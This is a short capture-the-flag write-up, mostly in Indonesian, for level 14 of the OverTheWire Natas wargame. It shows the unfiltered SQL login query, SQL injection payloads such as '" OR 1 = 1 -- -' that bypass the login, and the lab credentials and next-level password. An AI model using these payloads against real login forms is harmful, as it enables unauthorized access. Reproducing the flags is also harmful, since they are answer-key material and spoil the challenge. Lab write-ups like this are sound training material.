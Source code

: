 ```yaml
---
layout: level
level: 14
previous: ./level 13.html
next: ./level 15.html
---
```


# soal
Username: natas14 \
URL:      http://natas14.natas.labs.overthewire.org

# solve
- login with cred natas14:z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ
- di soal kali ini terdapat sebuah form login username admin disini ketika saya coba cek sourcenya terdapat connect database hanya saja tidak ada filternya
  ![alt text](docs/images/image-35.png)
  ```bash
  SELECT * FROM USERS WHERE username = '<input>' AND password = '<input>';
  # pas dicoba " dia berhasil
  SELECT * FROM USERS WHERE username = '"<input>' AND password = '<input>';

  "admin
  " OR "1" = "1
  " OR "test" = "test
  ```
- saya mencoba memasukan sqli manual dengan wordlist ini
  - https://github.com/payloadbox/sql-injection-payload-list
- waktu saya mencoba yang ini berhasil
  ![alt text](docs/images/image-36.png)
  ![alt text](docs/images/image-37.png)
  ```bash
  " OR 1 = 1 -- -
  ```
- output
  ```bash
  # Successful login! The password for natas15 is SdqIqBsFcz3yotlNYErZSZwblkm0lrvx
  ```

# flag
SdqIqBsFcz3yotlNYErZSZwblkm0lrvx